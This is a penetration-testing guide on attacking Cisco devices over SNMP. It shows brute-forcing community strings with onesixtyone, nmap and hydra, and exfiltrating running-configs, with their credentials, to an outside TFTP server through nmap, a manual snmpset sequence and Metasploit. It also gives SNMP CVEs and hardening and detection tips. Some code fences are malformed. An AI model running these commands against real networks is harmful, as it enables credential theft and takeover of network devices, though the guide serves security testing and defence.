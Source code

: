 # Cisco SNMP



## Pentesting Cisco Networks

**SNMP** functions over UDP with ports **161/UDP** for general messages and **162/UDP** for trap messages. This protocol relies on *community strings*, serving as plaintext "passwords" that enable communication between SNMP agents and managers. These strings determine the access level, specifically **read-only (RO) or read-write (RW) permissions**.

A classic—yet still extremely effective—attack vector is to **brute-force community strings** in order to elevate from unauthenticated user to device administrator (RW community).  
A practical tool for this task is [[https://github.com/trailofbits/onesixtyone|**onesixtyone**]]:

```bash
onesixtyone -c community_strings.txt -i targets.txt
```
```
Other fast options are the Nmap NSE script `snmp-brute` or Hydra's SNMP module:

```bash
nmap -sU -p161 --script snmp-brute --script-args brute.community=wordlist 10.0.0.0/24
hydra -P wordlist.txt -s 161 10.10.10.1 snmp
```
```
---

### Dumping configuration through SNMP (CISCO-CONFIG-COPY-MIB)
If you obtain an **RW community** you can copy the running-config/startup-config to a TFTP/FTP server *without CLI access* by abusing the CISCO-CONFIG-COPY-MIB (`1.3.6.1.4.1.9.9.96`). Two common approaches are:

1. **Nmap NSE – `snmp-ios-config`**

```bash
nmap -sU -p161 --script snmp-ios-config \
     --script-args creds.snmp=private 192.168.66.1
```
```The script automatically orchestrates the copy operation and prints the configuration to stdout   .

2. **Manual `snmpset` sequence**

```bash
# Copy running-config (4) to a TFTP server (1) – random row id 1234
snmpset -v2c -c private 192.168.66.1 \
  1.3.6.1.4.1.9.9.96.1.1.1.1.2.1234 i 1 \    # protocol = tftp
  1.3.6.1.4.1.9.9.96.1.1.1.1.3.1234 i 4 \    # sourceFileType = runningConfig
  1.3.6.1.4.1.9.9.96.1.1.1.1.4.1234 i 1 \    # destFileType   = networkFile
  1.3.6.1.4.1.9.9.96.1.1.1.1.5.1234 a 10.10.14.8 \ # TFTP server IP
  1.3.6.1.4.1.9.9.96.1.1.1.1.6.1234 s \"backup.cfg\" \\
  1.3.6.1.4.1.9.9.96.1.1.1.1.14.1234 i 4       # rowStatus = createAndGo
```
```Row identifiers are *one-shot*; reuse within five minutes triggers `inconsistentValue` errors.  

Once the file is on your TFTP server you can inspect credentials (`enable secret`, `username <user> secret`, etc.) or even push a modified config back to the device.

---

### Metasploit goodies

* **`cisco_config_tftp`** – downloads running-config/startup-config via TFTP after abusing the same MIB.
* **`snmp_enum`** – collects device inventory information, VLANs, interface descriptions, ARP tables, etc.

```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.10.100.10
set COMMUNITY public
run
```
```
---

## Recent Cisco SNMP vulnerabilities (2023 – 2025)
Keeping track of vendor advisories is useful to scope *zero-day-to-n-day* opportunities inside an engagement:

| Year | CVE | Affected feature | Impact |
|------|-----|-----------------|--------|
| 2025 | CVE-2025-20174 | SNMP subsystem | Crafted packet leads to authenticated *DoS* (reload) on IOS/IOS-XE (v1/v2c/v3).   |
| 2024 | CVE-2024-20373 | IPv4 ACL handling | Mis-configured **extended** ACLs silently *fail*, allowing unauthenticated SNMP polling when a valid community/user is known.   |
| 2025 | (no CVE yet) | SNMPv3 configuration restriction bypass | Valid v3 user can poll from addresses that should be denied.   |

Exploitability often still depends on possessing the community string or v3 credentials—another reason why brute-forcing them remains relevant.

---

## Hardening & Detection tips

* Upgrade to a fixed IOS/IOS-XE version (see Cisco advisory for the CVE above).
* Prefer **SNMPv3** with `authPriv` (SHA-256/AES-256) over v1/v2c.  
  ```
  snmp-server group SECURE v3 priv
  snmp-server user monitor SECURE v3 auth sha <authpass> priv aes 256 <privpass>
  ```
* Bind SNMP to a management VRF and **restrict with *standard* numbered IPv4 ACLs** (extended named ACLs are risky – CVE-2024-20373).
* Disable **RW communities**; if operationally required, limit them with ACL and views:  
  `snmp-server community <string> RW 99  view SysView`
* Monitor for:
  - UDP/161 spikes or unexpected sources (SIEM rules).
  - `CISCO-CONFIG-MAN-MIB::ccmHistoryEventConfigSource` events indicating out-of-band config changes.
* Enable **SNMPv3 logging** and `snmp-server packetsize 1500` to reduce certain DoS vectors.

---

## References

- Cisco: *How To Copy Configurations To and From Cisco Devices Using SNMP*  
- Cisco Security Advisory *cisco-sa-snmp-uwBXfqww* (CVE-2024-20373)  

